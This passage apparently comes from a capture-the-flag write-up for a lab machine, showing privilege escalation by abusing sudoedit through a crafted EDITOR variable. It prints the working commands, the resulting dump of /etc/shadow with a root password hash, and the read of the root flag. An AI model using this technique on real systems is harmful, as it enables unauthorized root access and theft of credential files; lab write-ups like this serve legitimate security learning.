 - Exploit is pretty straightforward. To confirm the vulnerability I ran it on `/etc/shadow` since we don't have any permissions for that file.

  ```
  web@cyprusbank:~$ export EDITOR="vi -- /etc/shadow"

  web@cyprusbank:~$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
  
  root:$6$LVAc0zJV$81N7Ge4HhMb/U9A/kaL6Px0vay4rEKfNnrZSVbktE2aQxM6Tudl1/ex6tJq6fYFF
  PiOg7WhINFagng4ryejN8e1:19554:0:99999:7:::
  daemon:*:18885:0:99999:7:::
  bin:*:18885:0:99999:7:::
  sys:*:18885:0:99999:7:::
  sync:*:18885:0:99999:7:::
  games:*:18885:0:99999:7:::
  man:*:18885:0:99999:7:::
  lp:*:18885:0:99999:7:::
  mail:*:18885:0:99999:7:::
  news:*:18885:0:99999:7:::
  uucp:*:18885:0:99999:7:::
  proxy:*:18885:0:99999:7:::
  www-data:*:18885:0:99999:7:::
  backup:*:18885:0:99999:7:::
  list:*:18885:0:99999:7:::
  irc:*:18885:0:99999:7:::
  gnats:*:18885:0:99999:7:::
  nobody:*:18885:0:99999:7:::
  systemd-network:*:18885:0:99999:7:::
  systemd-resolve:*:18885:0:99999:7:::
  syslog:*:18885:0:99999:7:::
  messagebus:*:18885:0:99999:7:::
  "/var/tmp/shadow.vIf4O22I" 31L, 1052C                         1,1           Top
  ```

- Vulnerability confirmed. Now read the flag like a pro!

  ```
  web@cyprusbank:~$ export EDITOR="vi -- /root/root.txt"
  web@cyprusbank:~$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
  THM{4nd_uR_p4ck4g3s}
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  ~                                                                               
  "/var/tmp/rootYCbVIbFH.txt" 1L, 21C                           1,1           All
  ```

---